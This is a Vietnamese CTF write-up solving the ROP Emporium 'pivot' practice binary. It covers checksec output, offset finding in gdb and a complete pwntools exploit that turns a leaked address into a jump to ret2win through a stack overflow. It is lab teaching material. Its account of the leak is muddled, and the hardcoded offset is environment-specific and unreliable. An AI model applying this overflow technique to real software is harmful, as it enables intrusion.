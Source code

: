 # ROP_Emporium - pivot

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pivot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e9fb878206e1858b042597fd36c51aa07497121, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm main()

![main.png](images/main.png)

Và hàm pwnme()

![pwnme.png](images/pwnme.png)

# 2. Ý tưởng

Bài này leak cho ta địa chỉ của chuỗi đầu vào -> leak được libc từ đó kiếm được libc_base

# 3. Khai thác

Tại hàm pwnme cho chúng ta nhập vào 2 lần nhưng do leak được libc rồi nên chúng ta có thể nhập bỏ qua lần 1 và dùng kỹ thuật ret2win ở lần nhập thứ 2.

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Vậy offset là 0x28 bytes.

Do bài này leak được địa chỉ nên ta sẽ dùng:

```p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")

leak = int(p.recv(12),16)

print("[+]LEAK:", hex(leak))```

để leak địa chỉ và in ra màn hình.

- Dùng gdb để chạy chương trình và dùng **info functions** để xem các hàm chương trình có khi chạy ta phát hiện ra có hàm ret2win():

![win.png](images/win.png)

Ta tìm offset giữa địa chỉ leak được và địa chỉ hàm ret2win():

![offset2.png](images/offset2.png)

Như vậy địa chỉ hàm ret2win() = leak + 0x1e2b71

Full code:
```
from pwn import*

context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pivot', checksec=False)

p = process("./pivot")

#gdb.attach(p, gdbscript='''
#b*pwnme+113
#c
#''')
adget = elf.sym['usefulGadgets']

p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
leak = int(p.recv(12),16)
print("[+]LEAK:", hex(leak))
win = leak + 0x1e2b71

payload = flat(
    cyclic(0x28),
    win
      )
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


